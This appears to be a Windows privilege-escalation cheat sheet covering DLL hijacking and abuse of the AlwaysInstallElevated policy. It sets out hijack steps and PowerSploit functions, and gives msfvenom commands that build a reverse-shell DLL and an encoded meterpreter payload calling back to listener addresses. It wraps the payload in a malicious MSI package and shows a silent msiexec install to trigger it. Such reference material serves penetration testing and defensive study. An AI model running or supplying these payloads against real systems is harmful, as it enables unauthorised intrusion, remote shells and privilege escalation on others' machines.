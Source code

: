 ### DLL Hijacking

When a process attempts to load a DLL, the system searches directories in the following order:
* The directory from which the application loaded.
* The system directory.
* The 16-bit system directory.
* The Windows directory.
* The current directory.
* The directories that are listed in the PATH environment variable.

Steps in order to hijack a DLL:
* Find processes running with higher privileges than ours.
* Download an analyze binaries of these processes.
* Identify DLL for each service with [Procmon](https://technet.microsoft.com/en-us/sysinternals/processmonitor.aspx)
* If it does not exist (**NAME_NOT_FOUND**), place the malicious copy of DLL to one of the directories that I mentioned above. When process executed, it will find and load malicious DLL.
* If the DLL file already exists in any of these paths, try to place malicious DLL to a directory with a higher priority than the directory where the original DLL file exists.

Create an evil DLL:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -a x86 > evil.dll
```

You can also use [Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Privesc/README.md):
* Identify missing DLLS: Find-ProcessDLLHijack
* Find path that the user can modify (M): Find-PathDLLHijack
* Generate the hijackable DLL: Write-HijackDll


### AlwaysInstallElevated

`AlwaysInstallElevated` is a policy setting that directs Windows Installer to use elevated permissions when it installs any package on the system. If this policy setting is enabled, privileges are extended to all programs.

* Check is `AlwaysInstallElevated` is enabled:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If you see the following output, it means the policy setting is enabled and you can exploit it.

Windows Installer will use elevated permissions when it installs any package. So we should generate a malicious .msi package and run it.

* Create payloads:
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```
* Install package and trigger payload:
```
msiexec /quiet /qn /i malicious.msi

/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

